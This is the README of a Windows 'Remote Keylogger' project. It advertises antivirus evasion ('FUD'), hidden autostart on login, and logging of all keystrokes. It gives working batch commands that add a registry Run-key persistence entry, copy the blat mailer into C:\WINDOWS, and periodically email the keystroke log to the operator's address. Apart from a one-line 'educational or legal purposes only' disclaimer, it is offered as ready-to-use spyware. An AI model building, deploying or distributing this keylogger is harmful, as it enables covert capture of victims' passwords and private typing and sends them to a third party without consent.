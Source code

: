 
<h1 align="center">
  <br>




                                             
                  ,ad8888ba,                       
                 d8"'    `"8b   aa         aa      
                d8'             88         88      
                88          aaaa88aaaa aaaa88aaaa  
                88          """"88"""" """"88""""  
                Y8,             88         88      
                 Y8a.    .a8P   ""         ""      
                  `"Y8888Y"'                       

                                   
                                  
                                  
                                  
                                  
                           
  <br>
  Remote Keylogger
  <br>
</h1>

<h4 align="center">A simple home made keylogger that send logs to your email
.</h4>


<p align="center">
  <a href="#key-features">Key Features</a> •
  <a href="#how-to-use">How To Use</a> •
  <a href="#credits">Credits</a> •
  <a href="#license">License</a>
</p>

![screenshot](https://www.nevis.net/hubfs/2020/blog/e143-keylogger.gif)

## Key Features

* Autostart on windows login
  - you need to bind the file. Also you can create a windows register file for create an autostart ghost process on windows login.
* FUD not detected by antivirus software. 
* Create a .txt log file, easy to send.
* Log all keys.
* Sent to you a copy of the log periodically to your email.



## How To Use

You can build the project using Visual Studio or DevC++ (free), then you need to insert additional tools in the same foldere of the .exe launcher file, or you can use the prebuild exe in the repository. Check out the code to change the file paths needed for some features

Mandatory: Edit the batch file!

With this code you can create windows register file for create an autostart ghost process on windows login. Change the path with your file name
```
Reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v prova /f
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v prova /t REG_SZ /d "C:\\lancio.exe\" /f

```

If you want you can change the directory 

```
@COPY blat.exe C:\WINDOWS\blat.exe
@COPY blat.dll C:\WINDOWS\blat.dll
@COPY blat.lib C:\WINDOWS\blat.lib

```

Insert your email server and email address, change the timeout if you want
```

@blat -install out.alice.it yourmail@alice.it
cls
@blat keylogs.txt -to yourmail@alice.it -try 2 -subject Keylog
timeout /t 15
@blat keylogs.txt -to yourmail@alice.it -try 2 -subject Keylog
timeout /t 600

```

> **Note**
> You can use temporany email too


## Credits

Russo Giovanni M.

Use it for educational or legal purposes only

## License

MIT

---

